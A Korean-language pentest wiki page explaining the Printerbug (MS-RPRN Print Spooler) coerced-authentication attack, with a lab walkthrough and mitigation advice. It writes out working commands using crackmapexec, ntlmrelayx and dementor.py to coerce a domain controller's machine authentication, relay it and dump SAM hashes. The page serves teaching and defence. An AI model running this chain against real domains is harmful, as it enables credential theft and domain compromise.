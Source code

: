 # MS-RPRN - Printerbug / Print Spooler

![](../../.gitbook/assets/print-spooler-rpc.drawio\(3\).png)

Printerbug (프린터버그) / Print Spooler RPC 강제 인증은 타겟 서버에서 실행중인 Print Spooler 서비스의 `RpcRemoteFindFirstPrinterChangeNotificationEx` RPC 함수를 이용하는 공격이다. 공격은 다음과 같은 단계로 이뤄진다:

1. 공격자는 취약한 RPC 함수 중 하나인 `RpcRemoteFindFirstPrinterChangeNotificationEx` 를 타겟 서버에게 요청한다. 이 함수는 타겟 서버에서 프린터와 관련된 변화가 일어날 시 클라이언트에게 알려주는 함수다.
2. 서버가 클라이언트가 RPC 함수를 실행했다는 것을 인지한다.
3. `RpcRemoteFindFirstPrinterChangeNotificationEx` 함수가 제대로 실행되려면 서버에서 클라이언트로 인증하고 접근 한 뒤, 클라이언트에게 알림 설정을 해줘야한다. 이 설정을 하기 위해 서버는 스스로 (하지만 사실상 클라이언트가 함수를 실행했으니 "강제"로) 공격자 클라이언트에게 서버 머신 계정 + Net-NTLMv1/v2 해시가 포함된 사용자 인증 패킷을 보낸다.
4. 공격자는 이 머신 계정의 사용자 인증 패킷을 Responder 와 같은 툴로 받는다.
5. 이후 이 머신 계정 이름 + Net-NTLMv1/v2 해시를 가지고 릴레이 공격, 다운그레이드 공격, RBCD 공격 등의 다양한 공격을 진행한다.

### 전제 조건

* 타겟 서버의 Print Spooler 서비스가 작동중이여야한다 - 윈도우 서버와 워크스테이션 운영체제에서는 기본적으로 활성화 되어있다.
* 도메인 유저 계정/문맥이 필요하다.

### 실습

* **DC01.choi.local (192.168.40.150)** - choi.local 도메인의 도메인 컨트롤러. 끔찍하게도 다른 도메인 컨트롤러의 로컬 관리자 권한을 갖고 있다.
* **DC1.pci.choi.local (192.168.40.160)** - pci.choi.local 도메인의 도메인 컨트롤러. 끔찍하게도 dc01.choi.local 에게 로컬 관리자 권한을 줬다.

![](<../../.gitbook/assets/image (12) (4).png>)

도메인 컨트롤러가 다른 도메인의 도메인 컨트롤러 로컬 관리자 권한을 갖고 있는 것은 현실적이지 않은 시나리오다. 그와 동시에 실제 모의해킹 시 발견 가능성이 0%냐고 물어본다면 또 그렇지도 않은, 끔찍한 시나리오다.

이번 실습에서는 dc01.choi.local에게 프린터버그 강제인증 -> NTLM 릴레이 -> dc1.pci.choi.local 의 SAM 덤프를 해본다.

1.먼저 dc01.choi.local 이 프린터버그 에 취약한지, Spooler 서비스가 작동중인지 알아본다.

```
cme smb dc01.choi.local -u low -p 'Password123!' -d choi.local -M spooler
```

![Enabled! Spooler 서비스/RPC가 작동중이다.](<../../.gitbook/assets/image (5) (2) (1).png>)

2\. 프린터버그 강제 인증을 실행하기 전, NTLM 릴레이를 먼저 세팅한다.

```shell
python3 ntlmrelayx.py -t dc01.choi.local -smb2supportshel
```

3\. 프린터버그 강제 인증을 실행한다.

```
python3 dementor.py -u low -p 'Password123!' -d choi.local 192.168.40.182 192.168.40.150
```

4\. 결과를 확인한다.

dc01.choi.local (192.168.40.150) 에게 프린터버그 강제인증 실행 -> dc01의 머신계정 (`choi.local\dc01$`) 의 NTLM 인증 트래픽이 공격자 호스트에게 전달 -> 그것을 릴레이해서 dc1.pci.choi.local 에게 전달 -> `dc01.choi.local` 이 `dc1.pci.choi.local` 의 로컬 관리자 권한을 갖고 있었기 때문에 SAM 덤프.

![](<../../.gitbook/assets/image (7) (3).png>)

### 대응 방안

강제 인증 공격을 가능케 해주는 Print Spooler 서비스는 프린트를 위한 서비스다. 수만명의 대기업 IT 인프라를 담당하는 도메인 컨트롤러 서를 물리적으로 방문해서 프린트를 한 적은 없을 것이다. 어디 데이터센터에 있는 도메인 컨트롤러에 비행기를 타고 가서 프린트를 하는 시스템 어드민 또한 본 적이 없다.

따라서 프린터버그 강제 인증을 막는 방법은 Spooler 서비스를 비활성화 시키는 것이다. 특정 기능을 비활성화 시키는 것은 고객사에게 잘 추천하지 않지만, 이 경우 진짜 도메인 컨트롤러에서 프린트를 하는 사람이 없기 때문에 비활성화해도 비즈니스 운영에 있어 아무런 영향을 미치지 않는다.

![프린트는 프린터에서 - 도메인 컨트롤러는 소중하다.](<../../.gitbook/assets/image (4) (2) (1) (1).png>)
